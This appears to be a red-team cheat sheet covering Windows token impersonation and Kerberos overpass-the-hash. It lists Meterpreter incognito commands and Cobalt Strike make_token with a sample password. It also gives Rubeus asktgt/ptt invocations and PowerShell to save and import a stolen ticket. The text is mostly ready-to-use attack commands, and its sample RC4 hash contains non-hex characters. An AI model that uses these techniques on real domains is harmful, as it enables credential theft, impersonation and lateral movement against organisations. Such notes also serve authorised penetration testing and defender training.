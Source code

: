 MSF Incognito

```
# load incognito
meterpreter > load incognito

# list currently used tokens
meterpreter > list_tokens -u

# impersonate token
meterpreter > impersonate_token CORP1\\admin
```

#### Make Token

```
beacon> make_token vault\boss_adm Passw0rd
[+] Impersonated [...]
```

#### Overpass-the-Hash

enum

```
beacon> execute-assembly /opt/tools/Rubeus.exe triage
```

ptt

```
beacon> execute-assembly /opt/tools/Rubeus.exe asktgt /user:b.builder /rc4:8t2g408a8aec852ef2e458b938b8b820 /nowrap /ptt
```

import

```
# get ticket
beacon> execute-assembly /opt/tools/Rubeus.exe asktgt /user:b.builder /rc4:8t2g408a8aec852ef2e458b938b8b820 /nowrap
[...]

# store ticket
PS > [System.IO.File]::WriteAllBytes("C:\Users\adm\Desktop\b.builder-tgt.kirbi", [System.Convert]::FromBase64String("qoIE[...snip...]Mllz"))

# burn session
beacon> make_token vault\b.builder fakepassword
[...]

# import
kerberos_ticket_use C:\Users\adm\Desktop\b.builder-tgt.kirbi
```

## Credential Manager
